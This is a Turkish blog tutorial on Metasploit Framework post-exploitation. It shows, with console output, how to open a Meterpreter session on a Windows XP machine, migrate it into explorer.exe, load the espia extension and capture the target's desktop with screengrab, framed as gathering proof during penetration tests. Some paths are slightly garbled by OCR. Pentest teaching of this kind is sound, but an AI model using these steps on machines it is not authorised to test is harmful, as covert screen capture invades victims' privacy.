 ```yaml
---
draft: false

title:  'MSF Ekran Yakalama'
date: '2017-06-05T13:38:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.' 
 
url:  /tr/msf-ekran-yakalama/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ekran Yakalama



Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.



Meterpreter oturum açtığınızda, oturumu `explorer.exe` prosesine taşınmalısınız. Aşağıdaki örnekte öncelikle sistemde çalışan programlar kontrol edilmektedir.



Hedef bilgisayarda meterpreter oturum açtığınızı farz ediyoruz. Öncelikle çalışan işlemlere bakalım. Bunun için `ps` komutunu kullanabilirsiniz.


```bash
> Started bind handler
> Trying target Windows XP SP2 - English...
> Sending stage **(**719360 bytes**)**
> Meterpreter session 1 opened **(**192.168.1.101:34117 -> 192.168.1.104:4444**)**

meterpreter > ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32 otepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    284   surgemail.exe        c:\surgemail\surgemail.exe
    332   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    612   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    620   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    648   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    664   GrooveMonitor.exe    C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
    728   WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    736   jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    756   msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    816   smss.exe             \SystemRoot\System32\smss.exe
    832   alg.exe              C:\WINDOWS\System32\alg.exe
    904   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    928   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    972   services.exe         C:\WINDOWS\system32\services.exe
    984   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1152  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1164  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1276  nwauth.exe           c:\surgemail wauth.exe
    1296  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1404  svchost.exe          C:\WINDOWS\System32\svchost.exe
    1500  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1652  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1796  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1912  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    2024  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2188  swatch.exe           c:\surgemail\swatch.exe
    2444  iexplore.exe         C:\Program Files\Internet Explorer\iexplore.exe
    3004  cmd.exe              C:\WINDOWS\system32\cmd.exe
```



Örnek çıktıda görüldüğü gibi `explorer.exe` 260 PID numarasıyla çalışmaktadır. `migrate` komutuyla Meterpreter oturumunu `explorer.exe` içine taşıyalım.


```bash
meterpreter > migrate 260
> Migrating to 260...
> Migration completed successfully.
```



Ardından `espia` eklentisini aktif hale getirelim.


```bash
meterpreter > use espia
Loading extension espia...success.
```



`screengrab` komutuyla hedef bilgisayarın Masaüstü görüntüsünü kaydedelim.


```bash
meterpreter > screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter >
```



Gördüğünüz gibi Masaüstü resmi yerel bilgisayarımıza kaydedildi. Bu işlemi yaparken `explorer.exe` veya benzeri şekilde klasör ve dosyalar üzerinde işlem yapabilen bir programa geçiş yapmanız önemlidir. Aksi takdirde `screengrab` komutu çalışmayabilir.
